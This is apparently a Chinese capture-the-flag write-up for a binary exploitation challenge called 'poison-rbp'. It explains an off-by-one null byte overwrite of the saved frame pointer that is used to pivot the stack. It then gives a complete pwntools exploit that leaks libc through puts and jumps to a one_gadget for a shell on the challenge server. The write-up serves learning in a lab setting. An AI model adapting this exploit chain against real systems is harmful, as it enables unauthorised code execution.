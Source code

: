 ## 没了溢出，你能秒我？

并不算裸的栈迁移。

输入函数存在多写1byte `b"\x00"`的漏洞，在经过vuln和main两个函数的`leave;ret`之后，rsp会指向被我们低位写0的rbp，这个值会比本来的rbp小，因此可以抬栈。

如此一来我们就可以先行在栈中布置ROP链，然后赌rbp的最低一位足够大，写0之后可以给我们充足的栈空间用来ROP。

至于它最后rsp指向栈中什么位置我们并不需要关心，直接把ROP链放在后面，前面塞满ret，只要你hit到一个ret就能让他滑到末尾（跟第一周shellcode前面塞满nop是一个思路）。

可以试着挂个gdb调一调。

然后就是常规ret2libc。

```py
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
#s=process("./poison-rbp")
s=remote("192.168.3.253",52004)
elf=ELF("../dist/poison-rbp")
libc=ELF("../dist/libc.so.6")

rdi=0x0000000000401393
p=flat([
    rdi,elf.got['puts'],
    elf.plt['puts'],
    elf.sym.main,
])
while len(p)!=0x100:
    p=p64(rdi+1)+p
s.sendafter(b"Try perform ROP!\n",p)
s.recvline()
libc.address=u64(s.recvline()[:-1].ljust(8,b'\x00'))-libc.sym.puts
success(hex(libc.address))

p=flat([
    0x000000000040138c,0,0,0,0,
    libc.address+0xe3afe,
])
while len(p)!=0x100:
    p=p64(rdi+1)+p
s.sendafter(b"Try perform ROP!\n",p)
s.recvline()
s.interactive()
```